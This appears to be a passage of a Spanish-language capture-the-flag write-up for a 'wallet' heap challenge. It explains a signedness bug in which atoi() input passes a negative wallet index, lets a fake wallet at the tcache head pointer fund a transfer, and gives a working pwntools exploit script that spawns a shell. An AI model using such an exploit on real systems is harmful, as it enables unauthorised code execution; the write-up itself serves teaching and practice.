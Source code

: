```c
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Vemos que hace una llamada a `getline()` y luego convierte el input a un integer usando `atoi()`. El bug esta en el uso de `atoi()`. Si volvemos a la funcion `sendwalocoins()` podemos ver que solo checkea que los numeros de las wallets no sean mayores a la cantidad de wallets que hemos creado, esto para evitar que hagamos transferencias desde direcciones que no pertenecen a una wallet real.

Pero no checkean que los numeros que hayamos introducido no sean MENORES a 0. Debido a que la funcion `atoi()` devuelve un integer, y no un unsigned integer o un unsigned long, podemos introducir un numero que sera interpretado como un valor negativo. En low level, si no se especifica que un numero es "unsigned", este numero puede tomar un valor negativo. Los valores que son interpretados como negativos por el procesador son los `valor > 0x7fffffffffffffff && valor < 0x10000000000000000`, y los interpretados como positivos son los `valor > 0x00 && valor < 0x8000000000000000`.

Con esto, apuntaremos a una wallet falsa que se encuentre mas abajo en el heap, y transferiremos facilmente un valor mayor a `0x79797979` para luego spawnear una shell. Pero, a donde debemos apuntar esta wallet falsa? Simple. Usando la funcion `signmessage()`, podemos alloquear y freear un chunk. Este chunk ira a una lista llamda `tcachebin`, cuyo head pointer se encuentra en un struct llamado `tcache_perthread_struct`. Este struct se encuentra en la base del heap. Entonces, podemos usar este pointer cuyo valor es, gracias al ASLR, mucho mayor a `0x79797979`, para transferir desde esta "wallet falsa" a una wallet real y luego conseguir nuestra shell.

El "exploit" final queda asi (aunque se puede hacer de forma manual perfectamente):

```python
#!/usr/bin/python
from pwn import *

context.log_level = "DEBUG"
elf = ELF("./wallet")
libc = ELF("./libc.so.6")
#p = gdb.debug(elf.path, "c")
#p = remote("10.150.0.4", 9995)
p = process(elf.path)

def check(ind):
    p.sendlineafter("> ", "1")
    p.sendlineafter("> ", str(ind))

def send(fromm, to, amount):
    p.sendlineafter("> ", "2")
    p.sendlineafter(">", str(fromm))
    p.sendlineafter(">", str(to))
    p.sendlineafter(">", str(amount))

def create():
    p.sendline("3")

def sign(message):
    p.sendlineafter("> ", "4")
    p.sendlineafter("> ", message)

create()
sign("asd")

send(0xffffff9a, 0, 0x79797979)
check(0)

p.interactive()
```